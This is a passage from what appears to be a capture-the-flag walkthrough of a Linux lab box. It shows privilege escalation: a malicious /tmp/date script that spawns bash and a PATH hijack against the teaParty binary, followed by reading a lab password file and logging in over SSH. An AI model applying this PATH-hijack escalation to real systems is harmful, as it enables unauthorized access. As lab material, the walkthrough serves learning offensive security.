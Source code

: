 ```
alice@wonderland:~$ vim random.py
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
alice@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```
After some enumeration, I have found an interesting binnary on `rabbit` home:
```
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Wed, 31 Jan 2024 11:43:36 +0000
Ask very nicely, and I will give you some tea while you wait for him

Segmentation fault (core dumped)
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Wed, 31 Jan 2024 11:43:44 +0000
Ask very nicely, and I will give you some tea while you wait for him

Segmentation fault (core dumped)
rabbit@wonderland:/home/rabbit$ find / -name date 2>/dev/null 
/sys/devices/pnp0/00:02/rtc/rtc0/date
/usr/lib/byobu/date
/bin/date
```
I think it uses `/bin/date` so let's try to make our own malicious one.
We will add `/tmp` to the path, and make our own date so when it will call date the `tmp` path will be called before `bin` and so our code will be executed.

our malicious date:
```sh
#!/bin/bash
/bin/bash
```

```
rabbit@wonderland:/home/rabbit$ export PATH=/tmp:$PATH
rabbit@wonderland:/home/rabbit$ vim /tmp/date
rabbit@wonderland:/home/rabbit$ chmod +x /tmp/date
rabbit@wonderland:/home/rabbit$ ./teaParty please
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```
And now, we are `hatter`.
```
hatter@wonderland:/home$ cd hatter/
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
```
Now, we have the creds of hatter so let's connect to it using ssh:
```
>>> ssh hatter@10.10.130.186
hatter@10.10.130.186's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jan 31 10:55:42 UTC 2024

```